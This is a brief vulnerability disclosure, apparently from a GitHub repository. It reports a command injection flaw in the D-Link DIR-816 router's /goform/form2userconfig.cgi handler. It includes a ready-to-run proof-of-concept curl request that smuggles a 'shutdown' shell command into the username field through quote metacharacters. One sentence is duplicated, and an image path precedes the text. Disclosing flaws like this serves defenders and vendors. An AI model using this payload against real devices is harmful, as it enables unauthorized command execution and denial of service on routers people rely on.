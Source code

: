 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.


##### POC&&EXP


```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';shutdown;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
Now it will shutdown
